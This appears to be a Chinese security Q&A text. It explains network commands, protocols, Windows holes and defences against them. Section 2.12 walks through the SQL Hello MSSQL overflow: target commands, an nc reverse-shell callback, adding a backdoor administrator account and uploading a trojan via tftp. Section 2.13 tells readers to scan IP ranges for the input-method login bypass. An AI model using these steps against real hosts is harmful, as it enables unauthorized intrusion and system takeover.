答：入侵者主要有三种方式进入系统：

-   (1) 物理入侵。指入侵者以物理方式访问一个机器进行破坏活动。例如，趁人不备溜进机房重地赶紧敲打两下键盘试图闯入操作系统；拿着钳子改锥卸掉机器外壳“借”走硬盘装在另一台机器上进行深入研究等。
-   (2) 系统入侵。指入侵者在拥有系统的一个低级账号权限下进行的破坏活动。通常，如果系统没有及时“打”最近的补丁程序，那么拥有低级权限的用户就可能利用系统漏洞获取更高的管理特权。
-   (3) 远程入侵。指入侵者通过网络渗透到一个系统中。这种情况下，入侵者通常不具备任何特殊权限，他们要通过漏洞扫描或端口扫描等技术发现攻击目标，再利用相关技术执行破坏活动。NIDS 主要针对的就是这种入侵。

#### 1.14 如何使用 ping 命令?

答：这是个使用率极高的实用程序；几乎每个和安全沾边的人都会用到，这个命令主要用于确定本地主机是否能与另一台主机交换（发送与接收）数据报。根据返回的信息，就可以推断参数设置是否正确以及运行是否正常。通过使用 Ping 命令，我们就可以排除网卡、输入输出线路、网络访问层、电缆和路由器等存在的故障，从而减小了问题的范围。同时，Ping 能够以毫秒为单位显示发送回送请求到返回回送应答之间的时间量。如果应答时间短，表示数据报不必通过太多的路由器或网络连接速度比较快。Ping 还能显示 TTL（Time To Live 存在时间）值，我们可以通过 TTL 值推算一下数据包已经通过了多少个路由器。至于在安全方面，由于可以自定义所发数据报的大小和无休止的高速发送，Ping 也可作为 DDOS（拒绝服务攻击）的工具，美国的白宫就这样被攻击瘫痪过。该命令的使用方法如图 1 所示。


#### 1.15 如何使用 Netstat 命令

答：网上聊天的时候，如果被人骚扰，想投诉怎么办？其实，我们只要知道对方的 IP，就可以投诉了。但怎样才能知道对方的IP呢？这个时候，我们就可以使用Netstat命令。Netstat用于显示与IP、TCP、UDP和ICMP协议相关的统计数据，一般用于检验本机各端口的网络连接情况，这样就可以很直观地了解本机的网络连接情况。试着分析这样一个安全方面的故障，如果计算机接收到的数据报出错导致数据删除，我们不会感到奇怪，就好像每个人都要犯错误并能改正一样，TCP/IP协议可以容许这些类型的错误，并能够自动重发数据包。但是，如果累计的出错情况数目占到所接收的IP数据报相当大的百分比，或者它的数目正迅速增加，那么我们就可以使用Netstat进行分析，看看到底是谁在向这个机器发送信息，然后断开和他的连接。在DOS命令提示符下输入“netstat -n”或“netstat -a”，对方所用的IP或ISP域名就一目了然，甚至连所用Port都完全暴露了，如图2所示。


#### 1.16 如何使用IPConfig命令？

答：这也是一个十分常见的网络安全命令，主要用于显示当前的TCP/IP配置的设置值。这些信息一般用来检验人工配置的TCP/IP设置是否正确。使用不带参数的IPConfig命令可以显示适配器IP地址、子网掩码、默认网关，还可以刷新动态主机配置协议和DNS设置。如果你想了解目前所使用机器的网络配置情况，该命令可以帮助你解决这个问题，使用方法及结果如图3所示。


#### 1.17 如何使用ARP（地址转换协议）命令？

答：ARP的英文全称是Address Resolution Protocol，这是一个链路层协议，它工作在第二层的位置，在本层和硬件接口联系，同时对上层（网络层）提供服务。通过这个命令，我们能够查看本地计算机或另一台计算机的ARP高速缓存中的当前内容，并且用于确定对应IP地址的网卡物理地址。同时，使用ARP命令，可以将IP转化成以IP对应的网卡的物理地址的一种协议，或者说ARP协议是一种将IP地址转化成MAC地址的一种协议。 在很多攻击和防范的实践中，我们可以用它来显示和修改地址解析协议所使用的到以太网的IP或令牌环物理地址翻译表，用“arp -d”命令可以删除ARP表中某一行的内容，用“arp -a”可以查看ARP缓存表中的内容，有了这个命令，“办事”就方便多了。请注意该命令只有在安装了TCP/IP协议之后才可用。该命令的使用如图4所示。


#### 1.18 如何使用Tracert命令？

答：如果遇到网络连通性问题，可以使用Tracert命令来检查到达的目标IP地址的路径并记录结果。Tracert命令用于显示将数据包从计算机传递到目标位置的一组IP路由器，以及每个跃点所需的时间。如果数据包不能传递到目标，Tracert命令将显示成功转发数据包的最后一个路由器。使用时，只需要在Tracert后面跟一个IP地址或URL，Tracert会进行相应的域名转换。Tracert一般用来检测故障的位置，使用这个命令，就可以确定目前的“肉鸡”是否值得攻击。使用方法如图5所示。


#### 1.19 如何使用Route命令？

答：实际上，我们所在的网络环境很容易发现路由器方面的问题，比如想监控某个网络的情况，使用嗅探器之前，就需要对路由设置有一定的了解。Route命令是用来显示、添加和修改路由表项目的命令。当网络上拥有两个或多个路由器时，我们就不一定想只依赖默认网关了。实际上我们可能想让我们的某些远程IP地址通过某个特定的路由器来传递，而其他的远程IP则通过另一个路由器来传递。在这种情况下，我们需要相应的路由信息，这些信息储存在路由表中，每个主机和每个路由器都配有自己的路由表。大多数路由器使用专门的路由协议来交换和动态更新路由器之间的路由表。但在有些情况下，必须人工将项目添加到路由器和主机上的路由表中。在这种情况下，我们就可以使用Route命令。

#### 1.20 如何使用NBTStat命令？

答：这个命令可以释放和刷新NetBIOS名称，用于提供关于NetBIOS的统计数据。如果想显示另一台计算机的物理地址和名字列表，就可以使用这个命令，语法是“nbtstat -a IP”，这样，在本机所显示的结果就像对方计算机自己运行“nbtstat -n”一样。

#### 1.21 什么是TCP/IP协议？

答：TCP/IP 是 “transmission Control Protocol/Internet Protocol” 的简写，中文译名为 “传输控制协议 / 互联网络协议”，TCP/IP 是一种网络通信协议，它规范了网络上的所有通信设备，尤其是一个主机与另一个主机之间的数据往来格式以及传送方式。近几年来，基于 TCP/IP 协议的 Internet 已逐步发展成为当今世界上规模最大、拥有用户和资源最多的一个超大型计算机网络；TCP/IP 协议也因此成为事实上的工业标准，也是一种电脑数据打包和寻址的标准方法。在数据传送中，可以形象地理解为有两个信封，TCP 和 IP 就像是信封，要传递的信息被划分成若干段，每一段塞入一个 TCP 信封，并在该信封面上记录有分段号的信息，再将 TCP 信封塞入 IP 大信封，发送上网。在接受端，一个 TCP 软件包收集信封，抽出数据，按发送前的顺序还原，并加以校验，若发现差错，TCP 将会要求重发。因此，TCP/IP 在 Internet 中几乎可以无差错地传送数据。对普通用户来说，并不需要了解网络协议的整个结构，仅需了解 IP 的地址格式，即可与世界各地的计算机进行网络通信。

#### 1.22 什么是IPX/SPX协议？

答：IPX/SPX 是基于施乐的 XEROX' S Network System (XNS)协议，而 SPX 是基于施乐的 XEROX' S SPP (Sequenced Packet Protocol, 顺序包协议)协议，它们都是由 Novell 公司开发出来应用于局域网的一种高速协议。它和 TCP/IP 的一个显著不同就是它不使用 IP 地址，而是使用网卡的物理地址即 (MAC) 地址。在实际使用中，它基本不需要什么设置，装上就可以使用了。由于其在网络普及初期发挥了巨大的作用，所以得到了很多厂商的支持，包括 Microsoft 等，到现在很多软件和硬件也均支持这种协议。

#### 1.23 什么是NetBEUI协议？

答：NetBEUI 即 NetBIOS Enhanced User Interface, 或 NetBIOS 增强用户接口。它是 NetBIOS 协议的增强版本，曾被许多操作系统采用，例如，Windows for Workgroup、Win 9x 系列、Windows NT 等。NETBEUI 协议在许多情形下很有用，是 Windows 98 之前的操作系统的默认协议。总之，NetBEUI 协议是一种短小精悍、通信效率高的广播型协议，安装后不需要进行设置，特别适合于在“网络邻居”中传送数据。所以建议除了 TCP/IP 协议之外，局域网的计算机最好也安上 NetBEUI 协议。另外还有一点要注意，如果一台只装了 TCP/IP 协议的 Windows 98 机器要想加入到 Windows NT 域，也必须安装 NetBEUI 协议。

#### 1.24 什么是SNMP协议？

答：在路由器里，最为常用的网管协议就是 SNMP。SNMP 是英文 “Simple Network Management Protocol” 的缩写，中文意思是 “简单网络管理协议”。SNMP 首先是由 Internet 工程任务组织（Internet Engineering Task Force,简称 IETF）的研究小组为了解决 Internet 上的路由器管理问题而提出的。SNMP 是目前最常用的环境管理协议。SNMP 被设计成与协议无关，所以它可以在 IP、IPX、AppleTalk、OSI 以及其他用到的传输协议上被使用。SNMP 是一系列协议组和规范，它们提供了一种从网络上的设备中收集网络管理信息的方法。SNMP 也为设备向网络管理工作站报告问题和错误提供了一种方法。目前，几乎所有的网络设备生产厂家都实现了对 SNMP 的支持。领导潮流的 SNMP 是一个从网络上的设备收集管理信息的公用通信协议。设备的管理者收集这些信息并记录在管理信息库（MIB）中。这些信息报告设备的特性、数据吞吐量、通信超载和错误等。MIB 有公共的格式，所以来自多个厂商的 SNMP 管理工具可以收集 MIB 信息，在管理控制台上呈现给系统管理员。通过将 SNMP 嵌入数据通信设备，如路由器、交换机或集线器中，就可以从一个中心站管理这些设备，并以图形方式查看信息。目前可获取的很多管理应用程序通常可在大多数当前使用的操作系统下运行，一个被管理的设备有一个管理代理，它负责向管理站请求信息和动作，因此，一些关键的网络设备（如集线器、路由器、交换机等）提供这一管理代理，又称 SNMP 代理，以便通过 SNMP 管理站进行管理。

#### 1.25 什么是UDP协议？

答：UDP 协议是英文 User Datagram Protocol 的缩写，即 “用户数据报协议”，主要用来支持那些需要在计算机之间传输数据的网络应用。包括网络视频会议系统在内的众多的“客户机 / 服务器”模式的网络应用都需要使用 UDP 协议。UDP 协议从问世至今已经被使用了很多年，虽然其最初的光彩已经被一些类似协议所掩盖，但是即使是在今天，UDP 仍然不失为一项非常实用和可行的网络传输层协议。与我们所熟知的 TCP（传输控制协议）协议一样，UDP 协议直接位于 IP（网际协议）协议的顶层。根据 OSI（开放系统互连）参考模型，UDP 和 TCP 都属于传输层协议。UDP 协议的主要作用是将网络数据流量压缩成数据报的形式。一个典型的数据报就是一个二进制数据的传输单位。每一个数据报的前 8 个字节用来包含报头信息，剩余字节则用来包含具体的传输数据。

#### 1.26 什么是PPPOE协议？

答：熟悉 ADSL 的用户都见过 PPPOE 软件，其作用就是连接操作系统的 PPP 协议和 Ethernet 协议，并通过 PPPOE 协议连接。Modem 接入技术面临一些相互矛盾的目标，既要通过同一个用户前置接入设备连接远程的多个用户主机，又要提供类似拨号一样的接入控制和计费等功能，而且要尽可能地减少用户的配置操作。PPPOE 的目标就是解决上述问题。PPPOE 在标准 PPP 报文的前面加上以太网的报头，使得 PPPOE 提供通过简单桥接接入设备连接远端接入设备，并可以利用以太网的共享性连接多个用户主机，在这个模型下，每个用户主机利用自身的 PPP 堆栈，用户使用熟悉的界面。接入控制，计费等都可以针对每个用户来进行。如 ISPEnterNet 这个软件，它具备独立的 PPP 协议，可以不依赖操作系统的拨号网络来提供 PPP 协议。

#### 1.27 什么是ICMP协议？

答：ICMP 是 Internet Control Message Protocol 的缩写，中文全称为“Internet 控制信息协议”。它是 TCP/IP 协议簇的一个子协议，用于在 IP 主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。这些控制消息虽然并不传输用户数据，但是对于用户数据的传递起着重要的作用。我们在网络中经常会使用到 ICMP 协议，只不过我们觉察不到而已。比如我们经常使用的用于检查网络通不通的 Ping 命令，这个“Ping”的过程实际上就是 ICMP 协议工作的过程。还有其他的网络命令如跟踪路由的 Tracert 命令也是基于 ICMP 协议的。

#### 1.28 知名的网络安全站点有哪些？

答：对于安全知识的学习是没有止境的，常见的途径有：通过一些经典的安全书籍和优秀的安全网站，并在实践中不断锻炼自己的攻防能力。下面提供了一些比较优秀的国内外资源，并给出了详细的分析。通过浏览这些网站，可以增加我们的阅历，丰富我们的视野。

在黑客技术站点上，我们可以得到最新的安全漏洞，甚至还会发现侵入别人计算机的黑客程序。通过浏览计算机安全技术站点，我们可以增长自己的见识，并逐步掌握主动权。以下是一些比较知名的技术站点：

-   天天安全网（http://www.ttian.net/）：网站的资源很丰富，工具比较齐全。
-   绿盟科技（http://www.nsfocus.net/）：漏洞资料公布比较及时，各类技术介绍也比较全面，还可以提示用户对网络和主机进行安全评估、安全升级以及进行必要的监控。
-   安全焦点（http://www.xfocus.net/）：自由的信息安全、黑客攻防和漏洞研究组织。
-   看雪学院（http://www.pediy.com/）：《加密与解密》的官方站点，在软件加密技术方面有一定实力。
-   绿色兵团（http://www.isbase.net/）：安全技术论坛，研究和探讨网络与信息安全、数据加密、安全问题。
-   中国鹰派（http://www.chinawill.net/）：一个网络组织的网站。
-   黑客基地（http://hackbase.com/）：栏目齐全，速度也不错，并推出了一些安全服务。
-   黑白网络（http://www.heibai.net）：推出了一份名为《黑客攻防指南》的电子杂志。
-   灰鸽子（http://www.huigezi.net）：开发了远程控制软件《灰鸽子》。

### 二、系统漏洞攻防篇

#### 2.1 什么是系统漏洞？

答：系统漏洞也称为安全缺陷，这些安全缺陷会被攻击者所利用，从而造成目标主机被控制或者造成一些更具破坏性的目的。漏洞产生的原因主要是：编程人员有意在程序的隐蔽处留下各种各样的后门；由于编程人员的水平、经验和当时的安全加密技术所限制。

#### 2.2 系统漏洞主要有哪些类型？

答：按漏洞可能对系统造成的直接威胁，大致可以分成以下几类。

-   （1）远程管理员权限、本地管理员权限和普通用户访问权限。远程管理员权限漏洞绝大部分来源于缓冲区溢出，少部分来自守护进程本身的逻辑缺陷。本地管理员权限是在已有一个本地账号能够登录到系统的情况下，通过攻击本地某些有缺陷的程序，得到系统的管理员权限。普通用户访问权限漏洞中，普通用户取得系统的普通用户存取权限，对 UNIX 类系统通常是 shell 访问权限，对 Windows 系统通常是 cmd.exe 的访问权限，能够以一般用户的身份执行程序，存取文件。
-   （2）权限提升。攻击者在本地通过攻击某些有缺陷的 sgid 程序，把自己的权限提升到某个非 root 用户的水平。获得管理员权限可以看作是一种特殊的权限提升，只是因为威胁的大小不同而把它独立出来。
-   （3）读取受限文件。攻击者通过利用某些漏洞，读取系统中他应该没有权限读取的文件，这些文件通常是与安全相关的。这些漏洞的存在可能是文件设置权限不正确，或者是特权进程对文件的不正确处理和意外 dump core 使受限文件的一部份 dump 到了 core 文件中。
-   （4）远程拒绝服务、本地拒绝服务和远程非授权文件存取。远程拒绝服务漏洞通常是系统本身或其守护进程有缺陷或设置不正确造成的。本地拒绝服务漏洞主要因为是程序对意外情况的处理失误，如写临时文件之前不检查文件是否存在，盲目跟随链接等。远程非授权文件存取主要是一些有缺陷的 cgi 程序引起的，它们对用户输入没有做适当的合法性检查，使攻击者通过构造特别的输入获得对文件存取。
-   （5）口令恢复。因为采用了很弱的口令加密方式，使攻击者可以很容易地分析出口令的加密方法，从而使攻击者通过某种方法得到密码后还原出明文来。
-   （6）欺骗。利用这类漏洞，攻击者可以对目标系统实施某种形式的欺骗。这通常是由于系统的实现上存在某些缺陷。如 Windows 系统中的 IE 曾经存在一个漏洞允许一个恶意网络在另一个网站的窗口内插入内容，从而欺骗用户输入敏感数据。
-   （7）服务器信息泄露漏洞。利用这类漏洞，攻击者可以收集到对于进一步攻击系统有用的信息。这类漏洞的产生主要是因为系统程序有缺陷，一般是对错误的不正确处理。
-   （8）其他。如访问验证错误漏洞、设计错误漏洞、输入验证错误漏洞、意外情况处置错误漏洞、环境错误漏洞、竞争条件漏洞、配置错误漏洞等。

看了这些分类之后，当我们看到网络上列举的漏洞时，就可以给它们对号入座了，而不至于茫然失措，同时也有利于我们制定解决问题的方案。

#### 2.3 Windows 系统的补丁有哪些？如何命名？

答：Windows 系统补丁分为两类，即 SP 和 Hotfix。

#### 2.4 如何部署局域网内部的漏洞防范服务

答：对于局域网的网管员来说，除了要争取在第一时间为自己管辖的所有服务器升级外，还要为客户端下载适用于多种平台、多种语言环境的补丁包，之后还要检验这些补丁包是否都升级到位。往往一个补丁还未处理完毕，另一补丁又来了，麻烦程度可想而知。如果要防范漏洞，必须首先从局域网内部开始。微软推出的 SUS（Software Update Services）服务可以帮助我们解决这个问题。此外，还应遵循如下原则：

（1）停止不必要的服务。在进行系统的设置时，虽然打开很多服务可以给管理带来方便，但如果对当前的服务不了解，最好关掉，以免给系统带来灾难。具体方法是：进入控制面板的“管理工具”，运行“服务”，进入服务界面，双击右侧列表中需要禁用的服务，在打开的服务属性的常规标签页“启动类型”一栏，选择“已禁用”，单击“确定”按钮即可。

（2）卸载不必要的协议。对于服务器和主机来说，在配置系统协议时，一般只安装 TCP/IP 协议就够了。右击“网络邻居”，选择“属性”，在打开的窗口中双击“本地连接”，在打开的对话框中单击“属性”按钮，卸载不必要的协议。NETBIOS 是很多安全缺陷的源泉，对于不需要提供文件和打印共享的主机，还可以将绑定在 TCP/IP 协议的 NETBIOS 给关闭，避免针对 NETBIOS 的攻击。方法是：选择“TCP/IP 协议”→“属性”→“高级”，进入“高级 TCP/IP 设置”对话框，选择“WINS”标签，勾选“禁用 TCP/IP 上的 NETBIOS”一项，关闭 NETBIOS。

（3）关闭不必要的端口。端口是计算机和外部网络相连的逻辑接口，也是计算机的第一道屏障，所以端口配置正确与否直接影响到我们主机的安全。对于那些我们根本用不着的功能，就没必要将端口打开了。如可以关闭 137、138、139 和 445 端口。

另外，现在还有不少公司提供了关于系统的安全评估工具和漏洞扫描工具，通过这些专业的软件，可以进行安全策略制定、漏洞管理、安全风险评估、攻击风险审计、远程监控和远程管理服务等。

#### 2.5 Windows 系统下有哪些日志文件？

答：一般来说，Windows 操作系统的日志文件有：应用程序日志、安全日志、系统日志、DNS 服务器日志等。其中，应用程序日志、安全日志、系统日志、DNS 日志的默认位置为“%systemroot%\system32\config”，默认文件大小 512KB。下面是详细的日志文件及地址描述：

| 日志类型 | 文件路径 |
| :--- | :--- |
| 安全日志文件 | %systemroot%\system32\config\SecEvent.EVT |
| 系统日志文件 | %systemroot%\system32\config\SysEvent.EVT |
| 应用程序日志文件 | %systemroot%\system32\config\AppEvent.EVT |

在注册表中，这些 LOG 文件可以在如下位置找到：[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog]，有的管理员可能会将这些日志重定位。其中，Eventlog 下面有很多子表，通过它可以查到以上日志的定位目录。默认的条件下，日志的大小为 512KB 大小，如果超出则会报错，并且不会再记录任何日志。出于安全方面的考虑，一个优秀的管理员应养成备份日志的好习惯，如果有条件的话还应该把日志转存到备份机器上或直接转储到打印机上。下面是两种常见的网页服务器攻击方式，通过这些日志可以分析黑客在记录文件中痕迹。

例 1：MDAC 攻击。MDAC 攻击法可以让网页的客户端在 IIS 网页服务器上执行命令。如果有人开始攻击 IIS 服务器，记录文件就会记下客户端曾经呼叫 msadcs.dll 文档的记录。

录：

```
17:48:49 203.207.188.128 GET /msadc/msadcs.dll 200
17:48:51 203.207.188.128 POST /msadc/msadcs.dll 200
```

例2：利用原始码漏洞。这种攻击方式也很普遍，就是会影响ASP和Java网页的暴露原始码漏洞。最晚被发现的安全漏洞是“+.htr”bug，这个bug会显示ASP原始码。如果有人利用这个漏洞攻击，就会在IIS的记录文件里面留下以下线索：

```
17:50:13 11.1.2.80 GET /default.asp+.htr 200
```

#### 2.6 漏洞扫描软件主要有哪些？

答：检测漏洞最好的办法就是进行扫描检测。下面是典型的扫描软件：

- (1) Superscan。如果是为了看看哪些电脑有漏洞，加以利用，那么就找哪些扫描速度比较快的软件，如 Superscan。对于喜欢简单方便的用户来说，Superscan 是一款很实用的工具，而且文件也很小，适合很多场合。对于喜欢渗透的朋友来说，利用这个工具可以很方便地发现 SQL 数据库的漏洞。

- (2) 流光。针对某一服务器，那么就找那些扫得全、数据全部模拟 IE 的扫描软件，比如“流光”。下面是针对整个局域网进行扫描后的结果，比如从“192.168.10.1”到“192.168.10.255”，打开“文件”菜单下的“高级扫描向导”选项，如图6所示。


- (3) X-scan。扫描过程中，可以设置 X-scan 的参数，包括扫描模块和扫描参数两个部分。单击“设置”菜单下的“扫描模块”选项。如果对目标主机不太了解，这些项目可以全部选择，如果了解目标主机，则可以根据实际情况进行选择。对于偏爱扫描报告的用户来说，还可以进行检测范围和扫描报告的一些设置。扫描完毕，单击“查看”菜单下的“检测报告”，就可以得到一份详细的解决方案。另外，安全焦点有着庞大的数据库可供查询，网管可以通过它来找到漏洞的解决办法，入侵者利用它可以达到事半功倍的效果。

- (4) Nmap。在 Linux 等操作系统下，它可以探测一组主机是否在线；扫描主机端口，嗅探提供的网络服务；判断主机的操作系统。Nmap 的语法很简单，但功能十分强大。在扫描时，如果攻击者不想使其信息被记录在目标系统日志上，TCP SYN 扫描可帮你的忙。使用“-sS”命令，就可以发送一个 SYN 扫描探测主机或网络，如图7所示。

## 图7

- (5) Nessus。这是一款功能强大的远程安全扫描器，它具有强大的报告输出能力，可以产生 HTML、XML、LaTeX 和 ASCII 文本等格式的安全报告，并能为每个安全问题提出建议。软件系统为 Client/Server 模式，服务器端负责进行安全检查，客户端用来配置管理服务器端。在服务端还采用了 plug-in 的体系，允许用户加入执行特定功能的插件，可以进行更快速和更复杂的安全检查。除了插件外，Nessus 还为用户提供了描述攻击类型的脚本语言，来进行附加的安全测试。

#### 2.7 什么是 NetBIOS 漏洞？如何进行防范？

答：NetBIOS (Network Basic Input Output System, 网络基本输入输出系统)，是一种应用程序接口 (API)，系统可以利用 WINS 服务、广播及 Lmhost 文件等多种模式将 NetBIOS 名解析为相应 IP 地址，实现信息通信，所以在局域网内部使用 NetBIOS 协议可以方便地实现通信及资源的共享。但在 Internet 上，NetBIOS 就相当于一个后门程序，黑客可以利用 NetBIOS 发起攻击。防范方法如下：

- (1) 解开文件和打印机共享绑定，取消选择“Microsoft 网络的文件和打印机共享”复选框，禁止所有从 139 和 445 端口来的请求。
- (2) 利用 TCP/IP 筛选。在“TCP/IP 筛选”中，禁止 139 和 445 端口请求。
- (3) 使用 IPSec 安全策略阻止对端口 139 和 445 的访问。
- (4) 停止 Server 服务。这样虽然不会关闭端口，但可以中止本机对其他机器的服务，当然也就中止了对其他机器的共享。但是关闭了该服务会导致很多相关的服务无法启动。
- (5) 使用防火墙防范攻击。在防火墙中也可以设置阻止其他机器使用本机共享。以上方法可以根据自身具体情况选择。

#### 2.8 什么是 IPC$ 漏洞？如何防范？

答：IPC 是共享“命名管道”的资源，它主要用于远程管理计算机和查看计算机共享资源。利用 IPC 我们可以与目标主机建立一个空的连接（无需用户名与密码），而利用这个空的连接，我们还可以得到目标主机上的用户列表。但是，一些别有用心者会利用 IPC 查找用户列表，并使用一些字典工具对系统进行攻击。防范 IPC$ 漏洞攻击的方法如下：

- (1) 通过修改注册表来禁止建立空连接（IPC$）。打开注册表，找到：“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA”目录下的 RestrictAnonymous 项，将其设置为“1”，就可以禁止空用户连接。
- (2) 通过修改注册表来禁止管理共享。打开注册表的“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters”项，对于服务器，添加键

#### 2.9 什么是 SAM 数据库安全漏洞？如何进行防范？

答：SAM ( Security Accounts Manager 安全账户管理器 ) 负责 SAM 数据库的控制和维护，SAM 数据库中包含所有组、账户的信息，包括密码 HASH、账户的 SID 等。可以使用 “regedt32.exe” 打开注册表编辑器并设置适当权限查看 SAM 中的内容。尽管 SAM 数据库文件受到了操作系统的保护，但黑客可以利用 SAM 数据库的安全隐患进行攻击。特别是在一台安装了多个操作系统的机器上，别的系统可以访问 Windows NT/2000/XP 等系统文件的分区，那么 SAM 的安全问题就暴露出来了。防范方法是通过使用 “安全配置管理器” 工具，修改 Windows 2000/XP 的本地安全策略为 “不允许 SAM 账户和共享的匿名枚举”。

#### 2.10 什么是 RPC 漏洞？如何进行防范？

答：RPC 是 Windows 操作系统使用的一个协议，它提供了一种进程间通信机制。通过这一机制，在一台计算机上运行的程序可以顺畅地执行某个远程系统上的代码。RPC 中处理通过 TCP/IP 的消息交换的部分有一个漏洞，此漏洞是由于 Windows RPC 服务在某些情况下不能正确检查消息输入而造成的。如果攻击者在 RPC 建立连接后发送某种类型的格式不正确的 RPC 消息，则会导致远程计算机上与 RPC 之间的基础分布式组件对象模型 (DCOM) 接口出现问题，进而使任意代码得以执行，而 135 端口则成了问题出现的最根本的起源。对于服务器而言，应通过防火墙尽快封锁 135 端口，并为计算机尽快打上相应的补丁。

#### 2.11 什么是 Unicode 漏洞？如何进行防范？

答：UNICODE 漏洞是一个比较老的漏洞了。不过，在国内仍然有部分主机依然存在着此类漏洞。让人担忧的是，UNICODE 漏洞很容易让入侵者得手，它可以不费吹灰之力将主页改掉，甚至可以删除硬盘上的数据或者获取 administrator 权限。其原理实际上就是利用 UNICODE 编码存在的 BUG，该漏洞利用扩展的 UNICODE 字符取代 “/” 和 “\”，能够利用 “../” 遍历目录。所以，在一台有此漏洞的服务器 IP 后加上一些特定的字符，就可以看到主机上 C 盘的所有文件及目录。所以，未经授权的用户可能利用 IUSR_MachineName 账号的上下文空间访问任何已知的文件。该账号在默认情况下属于 Everyone 和 Users 组的成员，因此任何与 Web 根目录在同一逻辑驱动器上的能被这些用户组访问的文件都能被删除、修改或执行。

要防范 UNICODE 编码漏洞，可以通过如下方式进行。

- (1) 补丁修补。为了服务器的安全，要以最快速度找到并修补。
- (2) 对付 UNICODE 扫描器。要躲过扫描器的扫描，可以更改 WINNT 安装目录名或 “cmd.exe” 的文件名，这样，扫描时就会返回错误号 404；改变 Web 目录的位置或者服务器端口；在保证不影响访问量的情况下，可以修改 Web 服务的端口；删掉 “*.idq”、“*.ida” 映射。
- (3) 进一步限制 IUSR_MachineName 的权限。将 Web 目录外所有的访问权限设置为用户 IUSR_MachineName 不可访问。另外，还要经常检查访问日志、寻找攻击的蛛丝马迹；经常更改自己的密码，保证只有一个用户隶属于管理员组；经常检查有无可疑的用户；经常扫描并试图攻击自己的服务器等等。

#### 2.12 什么是溢出攻击？如何进行防范？

答：溢出攻击是目前很常见的一种攻击方式了，如利用 ida/.idq 缓冲区溢出的漏洞攻击、LSD RPC 溢出漏洞攻击、PRINTER 缓冲区漏洞攻击、利用 IIS5.0 的 “.printer” 溢出漏洞攻击、利用 FrontPage 扩展缓冲区溢出漏洞攻击等，五花八门的溢出攻击对服务器的安全造成了十分重要的影响。一般来说，它可以分为远程溢出和本地溢出。远程溢出是在本地机器上运行远程溢出程序，通过提交畸形代码，获得远程主机系统权限。下面，我们以 SQL Hello Exploit 溢出实例进行讲解。这个漏洞被发现的时间比较早，但是，在今天仍然有很多主机都存在类似的漏洞，不过此漏洞只对 MSSQL SP2 以下版本有效。

第 1 步：寻找溢出漏洞主机。可以通过 VenusDLGScanner.exe 扫描主机的 1433 端口来探测。这款工具可以扫描某个网段的 MSSQL 服务器及其版本，软件使用很简单，是一个完全傻瓜化的工具，简直是为这个漏洞定制的，如图 8 所示。


第 2 步：准备溢出测试工具。看看存在漏洞的主机有几个，然后选择溢出程序对这些主机进行溢出攻击。现在，针对 MSSQL 主机的溢出程序有两个版本，分别是 “sqlhello2.exe” 和 “sqlhello.exe”。其中，前者是正向溢出工具，后者是反向溢出工具。其中，“sqlhello2.exe” 正向溢出的命令格式是：

```
sqlhello2.exe 攻击IP 1433
```

现在，利用 “sqlhello.exe” 溢出后正向连接。没有防火墙的话 “sqlhello2.exe” 的成功率比 “sqlhello.exe” 大，打开命令提示行窗口，输入如下命令：

```
sqlhello2.exe 203.207.***.*** 1433
```

如果溢出成功，命令提示行窗口就会变成 “C:\winnt\system32>”。不过，现在大部分的服务器都安装了防火墙，所以正向连接的可能性比较小。如果不能连接，可以考虑使用反向连接方式。继续下一步。

第 3 步：重新打开一个命令提示行窗口，使用 “nc.exe” 工具监听一个端口，如图9所示。


第 4 步：在另外一个命令提示行窗口中，使用反向连接工具进行连接测试。通过和“nc.exe”工具配合使用，“sqlhello.exe”可以穿透部分防火墙。“sqlhello.exe”反向溢出命令格式是：

```
sqlhello.exe 攻击IP 1433 自己的IP 自己监听端口
```
需要注意的是：反向溢出时，本机IP地址要和攻击目标的地址在同一个级别。也就是说，要么都是公网地址，要么都是局域网地址。测试提示一般为：
```
SQL Hello Exploit – Remote Shell Callback by JoePub
Exploit Choosen: SQL Hello Overflow
Inject Vector Size: 619
Code Size: 828
Data Size: 259
Exploit Size: 1706
```
如果现在命令提示行变成了“C:\winnt\system32>”，就可以进去进行管理员操作，并进行用户设置了。典型的操作命令如下：

- net user test "123456" /add  表示添加一个 test 账户，密码为 123456
- net localgroup administrators test /add  表示将 test 账户添加到管理员组
- net user  表示查看账户

可以看出，对 Windows 系统通常是“cmd.exe”的访问权限，现在，拥有系统权限之后，也可以利用 tftp 上传一个木马后门，随心所欲地执行一些木马操作了。现在，很多漏洞刚刚出现，就有高手公布了溢出攻击程序。所以，现在，黑客利用溢出漏洞的技术要求也越来越低了。

利用溢出攻击虽然开心，但是网管可就惨了。虽然打补丁是个有效的办法，但有时候补丁来的并不比漏洞利用工具及时。所以，“亡羊补牢”，给“cmd.exe”设置权限应该是比较有效的防止溢出的办法了。主要方法有：

- 第1招：建立一个 test 用户，当然，可以取个比较有个性的名字，并加个“$”前缀符号。最好是 USER 等级的。建立了用户后，浏览“c:\winnt\system32”目录，找到“cmd.exe”，用右键打开“属性”。在“安全”选项卡中，把所有的用户删除，然后添加 test 这个用户。同时，还要找到“net.exe”和“net1.exe”，按照“cmd.exe”的方法来设置。
- 第2招：考虑到攻击者可能会使用 ftp 工具传输本地溢出程序或者木马，可进入“C:\WINNT\system32\drivers\etc”目录，打开 services 这个文件，把 tftp 这个端口修改为 0。这样，攻击者就不会通过使用 tftp 来达到传输自己的工具的目的。当然，为了更好的安全性，我们可以把“tftp.exe”这个文件按照“cmd.exe”那样进行设置，只有 test 这个用户才可以使用。

#### 2.13 什么是输入法漏洞？

输入法漏洞针对的主要是简体中文 Windows 2000 操作系统。攻击方法是：

- 第1步：查找有漏洞的机器。首先我们可以用 X-way 扫描软件来搜索一段国内的 IP 地址范围，找到开放 3389 端口的 IP 后，逐一用终端服务客户端程序连接。出现登录界面后，点击输入用户名输入栏，然后用键盘上的“Ctrl+Shift”组合键切换到全拼输入法，在“全拼”两字前面的微软旗帜右击，弹出输入法快捷菜单。如果出现的“帮助”菜单上是灰色的，那就是说这个服务器已打上了输入法漏洞补丁，那就没戏了！再试下一个，直到找到一个“帮助”菜单是黑色的，即为可用状态的。
- 第2步：打开“帮助”菜单。这时，就会有下一级菜单“输入法入门…”，如图10所示。


